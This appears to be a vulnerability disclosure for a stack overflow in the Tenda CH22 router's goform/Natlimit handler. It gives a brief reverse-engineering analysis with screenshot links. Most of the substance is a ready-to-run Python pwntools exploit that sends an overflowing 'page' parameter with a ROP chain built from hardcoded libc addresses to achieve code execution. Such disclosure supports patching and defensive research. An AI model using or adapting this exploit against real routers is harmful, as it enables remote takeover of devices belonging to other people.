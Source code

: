 # A remote code execution vulnerability in the router CH22 V1.0.0.1 manufactured by Shenzhen Jixiangtengda Technology Co., Ltd.
Router firmware download link: [https://tenda.com.cn/material/show/101367](https://tenda.com.cn/material/show/101367)
Vulnerability URL: [http://192.168.100.166/goform/Natlimit](http://192.168.100.166/goform/Natlimit)

## Vulnerability Analysis.
The vulnerability occurs in the `formNatlimit` function.
![Alt text](https://github.com/xubeining/Cve_report/blob/main/CH22RCE11.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/CH22RCE12.png)
The program retrieves the user input parameter `"page"` but does not check its size. When the input parameter is too large, it causes a stack overflow, leading to program crashes or potential exploitation.  
Cross-referencing the function `formNatlimit` with the route `Natlimit`, line 55. The vulnerability occurs in the `fromNatlimit` function.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/CH22RCE13.png)
Cross-referencing further to `sub_64EAC`, paying attention to lines 44 and 47.
![Alt text](https://github.com/xubeining/Cve_report/blob/main/CH22RCE14.png)
Yes, based on the cross-referencing, the vulnerability occurs on the page path `goform/Natlimit`.

payload:
```
import requests
from pwn import *

addr=0x006B32C
libc=ELF("./lib/libc.so.0")
system_offset = libc.symbols["system"]
base=0xf6645000
system = base + system_offset
cmd = b"RCERCERCERCERCERCERCERCERCERCERCERCERCERCERCE\x00"
puts = base+libc.sym['puts']

move_r0=base+0x00040cb8
r3_pop=base+0x00018298

url = "http://192.168.100.166/goform/Natlimit"
payload = {
      'page':cyclic(255)+p32(r3_pop)+p32(puts)+p32(move_r0)+cmd

    }
res = requests.post(url=url,data=payload)
```
